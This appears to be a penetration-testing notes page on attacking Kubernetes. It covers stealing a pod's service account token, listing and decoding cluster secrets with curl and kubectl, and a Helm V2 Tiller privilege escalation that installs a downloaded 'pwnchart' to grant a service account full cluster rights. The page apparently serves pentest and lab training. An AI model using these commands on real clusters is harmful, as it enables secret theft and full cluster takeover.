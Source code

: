 ```yaml
---
description: >-
  Container Orchestration for managing big scalable infrastructure of
  containerized applications
---
```


# Kubernetes

{% embed url="https://kubernetes.io/docs/reference/glossary/?fundamental=true" %}
Description of many common terminology in the Kubernetes world
{% endembed %}

The way of attacking a Kubernetes cluster is similar to attacking Windows Active Directory:

1. Find a **vulnerability** in an application (RCE, SSRF, SSH, etc.)
2. Perform **Lateral Movement** to access more pods and nodes with higher privileges
3. Reach the **Highest Privileges** to do anything an attacker wants

## Initial Access

The `/var/run/secrets/kubernetes.io/serviceaccount/token` file (sometimes `/run` instead of `/var/run`) on a Kubernetes pod contains a Service Account Token in the form of a [JSON Web Token](https://jwt.io/). It can be decoded, and the payload tells you exactly who or what the account belongs to:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Decoded k8 Service Account Token (<a href="https://medium.com/swlh/kubernetes-attack-path-part-2-post-initial-access-1e27aabda36d">source</a>)</p></figcaption></figure>

This token can be used for **Lateral Movement** in the rest of the cluster and interact with the API server, and due to being in the internal network, a lot more servers are now accessible. A few useful endpoints are:

* `/api/v1/namespaces/default/pods/`: List all pods
* `/api/v1/namespaces/default/secrets/`: List all secrets

These can be requested with the found Service Account Token (JWT) as a header:

```bash
curl -v -H 'Authorization: Bearer <TOKEN>' https://<API_SERVER>/...
```

If the machine has `kubectl` installed (or you download a [static binary](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux)), it is also possible to simply use it instead of manual `curl` commands. Some similar and useful commands are:

<pre class="language-shell-session"><code class="lang-shell-session"># # List everything
<strong>$ kubectl get all --token $TOKEN --server $API_SERVER --insecure-skip-tls-verify
</strong><strong>$ kubectl get pods     # List pods
</strong><strong>$ kubectl get secrets  # List secrets
</strong>
# # Execute an interactive shell with a pod
<strong>$ kubectl exec &#x3C;POD_NAME> --stdin --tty  -- /bin/bash
</strong># # Get and decode a secret
<strong>$ kubectl get secret &#x3C;SECRET_NAME> -o jsonpath='{.data.*}' | base64 -d
</strong></code></pre>

## Helm V2 - Tiller

At the time of writing, [Helm](https://helm.sh/) V3 is the newest version, but many clusters still use the outdated V2. This bears some serious security considerations as the Tiller component has full cluster administration RBAC privileges, which can be exploited if we have access to `helm`.&#x20;

Taken from [here](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-9/helm-v2-tiller-to-pwn-kubernetes-cluster-takeover/welcome), you can test the TCP connection on port `44134` and verify the version:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ nc -v tiller-deploy.kube-system 44134
</strong>Connection to tiller-deploy.kube-system 44134 port [tcp/*] succeeded!
<strong>$ helm version
</strong>Client: &#x26;version.Version{SemVer:"v2.0.0", GitCommit:"ff52399e51bb880526e9cd0ed8386f6433b74da1", GitTreeState:"clean"}
Server: &#x26;version.Version{SemVer:"v2.0.0", GitCommit:"b0c113dfb9f612a9add796549da66c0d294508a3", GitTreeState:"clean"}
</code></pre>

To start exploiting this, a ready-to-use template exists that requires some minimal changes:

{% embed url="https://github.com/Ruil1n/helm-tiller-pwn" %}

```shell-session
$ curl -o ./pwnchart.tgz https://github.com/Ruil1n/helm-tiller-pwn/raw/main/pwnchart-0.1.0.tgz
$ tar xvf ./pwnchart.tgz
```

Inside the newly created `./pwnchart` folder there the two `clusterrole.yaml` and `clusterrolebiniding.yaml` files in the `templates/` folder require the following change:

{% code title="templates/*.yaml" %}
```diff
- apiVersion: rbac.authorization.k8s.io/v1beta1
+ apiVersion: rbac.authorization.k8s.io/v1
```
{% endcode %}

As well as the `values.yml` file where the `name:` key needs to be changed to the **name of the service account token** which will gain all privileges. Make sure this is a service account you own:

```diff
- name: default
+ name: compromised-user
```

Finally, after setting this up you can run the command to install it:

```bash
helm --host tiller-deploy.kube-system:44134 install --name pwnchart ./pwnchart
```

After doing so, the `compromised-user` token will have every permission on the cluster and can access anything. Check `kubectl get all` for a list of everything.&#x20;
